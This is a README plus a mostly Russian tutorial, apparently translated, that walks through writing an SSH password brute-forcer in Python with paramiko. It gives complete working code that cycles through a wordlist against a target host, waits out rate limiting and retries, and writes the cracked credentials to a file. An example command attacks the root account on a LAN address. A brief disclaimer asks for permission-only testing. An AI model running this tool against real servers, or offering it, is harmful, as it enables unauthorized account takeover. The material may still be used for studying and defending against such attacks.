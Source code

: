 # [How to Brute-Force SSH Servers in Python](https://www.thepythoncode.com/article/brute-force-ssh-servers-using-paramiko-in-python)
To run this:
- `pip3 install -r requirements.txt`
- 
    ```
    python bruteforce_ssh.py --help
    ```
    **Outputs:**
    ```
    usage: bruteforce_ssh.py [-h] [-P PASSLIST] [-u USER] host

    SSH Bruteforce Python script.

    positional arguments:
    host                  Hostname or IP Address of SSH Server to bruteforce.

    optional arguments:
    -h, --help            show this help message and exit
    -P PASSLIST, --passlist PASSLIST
                            File that contain password list in each line.
    -u USER, --user USER  Host username.
    ```
- If you want to bruteforce against the server `192.168.1.101` for example, the user `root` and a password list of `wordlist.txt`:
    ```
    python bruteforce_ssh.py 192.168.1.101 -u root -P wordlist.txt
    ```
##
# [[] / []]()
Атака методом перебора — это действие, которое включает в себя повторяющиеся попытки многих комбинаций паролей взломать систему, требующую проверки подлинности. Существует множество инструментов с открытым исходным кодом для перебора SSH в Linux, таких как Hydra, Nmap и Metasploit. Тем не менее,в этом уроке вы узнаете, как вы можете сделать скрипт грубой силы SSH на языке программирования Python.

Читайте также: Как сделать сканер поддоменов в Python.

Мы будем использовать библиотеку paramiko, которая предоставляет нам простой клиентский интерфейс SSH. Давайте установим его:

$ pip3 install paramiko colorama
Мы используем colorama только для печати в цветах, ничего больше.

Откройте новый файл Python и импортируйте необходимые модули:

import paramiko
import socket
import time
from colorama import init, Fore
Определение некоторых цветов, которые мы собираемся использовать:

# initialize colorama
init()

GREEN = Fore.GREEN
RED   = Fore.RED
RESET = Fore.RESET
BLUE  = Fore.BLUE
Теперь давайте создадим функцию, которая, учитывая имя хоста, имя пользователя и пароль, сообщает нам, является ли комбинация правильной:

def is_ssh_open(hostname, username, password):
    # initialize SSH client
    client = paramiko.SSHClient()
    # add to know hosts
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        client.connect(hostname=hostname, username=username, password=password, timeout=3)
    except socket.timeout:
        # this is when host is unreachable
        print(f"{RED}[!] Host: {hostname} is unreachable, timed out.{RESET}")
        return False
    except paramiko.AuthenticationException:
        print(f"[!] Invalid credentials for {username}:{password}")
        return False
    except paramiko.SSHException:
        print(f"{BLUE}[*] Quota exceeded, retrying with delay...{RESET}")
        # sleep for a minute
        time.sleep(60)
        return is_ssh_open(hostname, username, password)
    else:
        # connection was established successfully
        print(f"{GREEN}[+] Found combo:\n\tHOSTNAME: {hostname}\n\tUSERNAME: {username}\n\tPASSWORD: {password}{RESET}")
        return True
Получите: Создайте 24 этических хакерских скрипта и инструмента с помощью Python Book

Здесь можно рассказать о многом. Во-первых, мы инициализируем наш SSH-клиент с помощью paramiko. Класс SSHClient(), представляющий собой высокоуровневое представление сеанса с SSH-сервером.

Во-вторых, мы устанавливаем политику для использования при подключении к серверам без известного ключа хоста; мы использовали paramiko. AutoAddPolicy(), который является политикой для автоматического добавления имени хоста и нового ключа хоста к локальным ключам хоста и их сохранения.

Наконец, мы пытаемся подключиться к SSH-серверу и аутентифицироваться на нем с помощью метода client.connect() с 3 секундами тайм-аута, этот метод вызывает:

socket.timeout: когда хост недоступен в течение 3 секунд.
парамико. AuthenticationException: если комбинация имени пользователя и пароля неверна.
парамико. SSHException: когда за короткий промежуток времени было выполнено много попыток логирования, другими словами, сервер обнаруживает, что это какая-то грубая сила, мы будем это знать и будем спать минуту и рекурсивно вызывать функцию снова с теми же параметрами.
Если ни одно из вышеперечисленных исключений не было вызвано, то соединение успешно установлено, а учетные данные верны; в этом случае мы возвращаем значение True.

Поскольку это сценарий командной строки, мы будем анализировать аргументы, переданные в командной строке:

if __name__ == "__main__":
    import argparse
    parser = argparse.ArgumentParser(description="SSH Bruteforce Python script.")
    parser.add_argument("host", help="Hostname or IP Address of SSH Server to bruteforce.")
    parser.add_argument("-P", "--passlist", help="File that contain password list in each line.")
    parser.add_argument("-u", "--user", help="Host username.")

    # parse passed arguments
    args = parser.parse_args()
    host = args.host
    passlist = args.passlist
    user = args.user
    # read the file
    passlist = open(passlist).read().splitlines()
    # brute-force
    for password in passlist:
        if is_ssh_open(host, user, password):
            # if combo is valid, save it to a file
            open("credentials.txt", "w").write(f"{user}@{host}:{password}")
            break
We basically parsed arguments to retrieve the hostname, username, and password list file and then iterate over all the passwords in the wordlist, I ran this on my local SSH server. Here is a screenshot:

Результат для SSH-сервера с перебором с помощью скрипта Pythonwordlist.txt — это файл списка паролей Nmap, содержащий более 5000 паролей. По сути, я взял его из ОС Kali Linux по пути "/usr/share/wordlists/nmap.lst". Однако, если вы хотите создать свой собственный пользовательский список слов, я рекомендую вам использовать инструмент Crunch.

ОТКАЗ от ответственности: Протестируйте это на сервере или компьютере, на котором у вас есть разрешение на тестирование. В противном случае это не наша ответственность.

Хорошо, мы в основном закончили с этим учебником. Узнайте, как можно расширить этот сценарий для использования многопоточности для быстрого перебора.

Если вы хотите вместо этого перебор FTP-серверов, ознакомьтесь с этим руководством.

Наконец, у нас есть электронная книга Ethical Hacking with Python, где мы создаем 24 хакерских инструмента и скрипта с Python с нуля! Обязательно проверьте это, если вы заинтересованы.

СВЯЗАННЫЕ С: Как сделать сканер портов в Python с помощью библиотеки сокетов.
